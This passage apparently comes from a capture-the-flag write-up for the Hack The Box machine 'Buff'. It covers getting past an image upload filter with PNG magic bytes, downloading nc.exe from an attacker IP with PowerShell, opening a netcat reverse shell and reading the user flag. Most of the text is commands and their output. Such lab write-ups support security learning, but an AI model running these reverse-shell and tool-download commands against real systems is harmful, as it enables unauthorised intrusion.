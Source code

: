 On every output, we see Magic bytes of a PNG file used to bypass the image upload filter also the shell is bit unstable, not letting us to change directory so let's transfer `nc` on the box and get a upgraded powershell.

### Upgraded Shell

```shell
C:\xampp\htdocs\gym\upload> powershell iwr -uri http://10.10.14.24/nc.exe -o nc.exe
�PNG


C:\xampp\htdocs\gym\upload> dir
�PNG

 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

13/11/2020  05:26    <DIR>          .
13/11/2020  05:26    <DIR>          ..
13/11/2020  05:26                53 kamehameha.php
12/11/2020  10:48            38,616 nc.exe
               3 File(s)        510,733 bytes
               2 Dir(s)   9,800,810,496 bytes free
```
Executing `nc` to get a powershell reverse shell

```shell
C:\xampp\htdocs\gym\upload> nc 10.10.14.20 8020 -e powershell.exe
```

Getting a call back on the listener

```shell
cfx:  ~/Documents/htb/buff
→ nc -lvnp 8020
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8020
Ncat: Listening on 0.0.0.0:8020
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:49739.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> whoami
whoami
buff\shaun
```

#### Grabbing user.txt

```shell
PS C:\Users\shaun\Desktop> get-content user.txt
get-content user.txt
7e6ceb18e6a59df3e31797b97d07d6c9
```
